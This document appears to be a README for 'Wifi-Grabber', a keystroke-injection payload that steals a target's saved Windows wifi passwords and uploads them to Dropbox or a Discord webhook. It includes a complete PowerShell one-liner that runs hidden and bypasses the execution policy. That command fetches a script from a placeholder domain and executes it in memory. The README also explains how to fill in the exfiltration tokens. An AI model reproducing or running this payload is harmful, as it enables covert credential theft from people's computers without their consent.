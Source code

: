 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Wifi-Grabber

## Description

This payload grabs your target's wifi passwords and uploads them to either Dropbox, Discord, or both.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your Discord webhook 

`$db` is the variable that stores your Dropbox token 

Fill in either or both of these to methods to exfil your collected data

```
powershell -w h -NoP -Ep Bypass $dc='';$db='';irm MYDOMAIN.HERE/e8v | iex
```

##

##